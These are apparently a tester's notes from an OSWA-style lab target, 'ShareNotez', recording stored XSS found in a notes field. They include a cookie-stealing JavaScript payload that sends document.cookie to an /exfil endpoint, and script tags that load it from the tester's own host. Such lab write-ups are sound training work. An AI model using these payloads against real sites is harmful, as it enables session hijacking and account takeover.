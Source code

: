 # Initial Testing
created a user with `test:test` credentials
![[ss-20250919-OSWA-Exam-ShareNotez-pic1.png]]created a test note in the `content` section - this is what it looks like in `burp`
![[ss-20250919-OSWA-Exam-ShareNotez-pic2.png]]
## XSS Identification and exploitationg
testing for `XSS` with the payload `<h1>offsec</h1>` - vulnerable to XSS
![[ss-20250919-OSWA-Exam-ShareNotez-pic3.png]]
at `http://192.168.62.62/static/js/app.js` able to identify that a login function occurs with the administrator
![[ss-20250919-OSWA-Exam-ShareNotez-pic4.png]]
here is a better view 
![[ss-20250919-OSWA-Exam-ShareNotez-pic5.png]]
```js
function login() {
    var username = $('#username').val();
	var password = $('#password').val();
    
	var postBody = "username="+username+"&password="+password;
	fetch('https://'+domain+':8443/api/login', {
		method:'POST',
		mode:'cors',
		credentials:'include',
		headers:{
			'Content-Type':'application/x-www-form-urlencoded;charset=UTF-8'
		},
		body:postBody
	})
	.then(response=>response.json())
	.then((data) => {
		if(data.status == "ok") {
			if("token" in data){
				localStorage.setItem('token', data.token);
			}
			if(data.isAdmin === "true") {
				window.location.href="/admin.php";
			} else {
				window.location.href="/profile.php";
			}
			
		} else {
            $('#message').text(data.message);
            $('#message').show();
        }
	});
}
```
first payload created to phish users `xss2.js` -> encode the cookie
```bash
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.62.62/exfil?data=" + encodedCookie)
```
then placed in vulnerable `XSS` field to pull it back to my `kali` host
```bash
<script src="http://192.168.49.62:8000/xss2.js"></script>
<script src="http://192.168.49.62:8000/xss2-1.js"></script>
```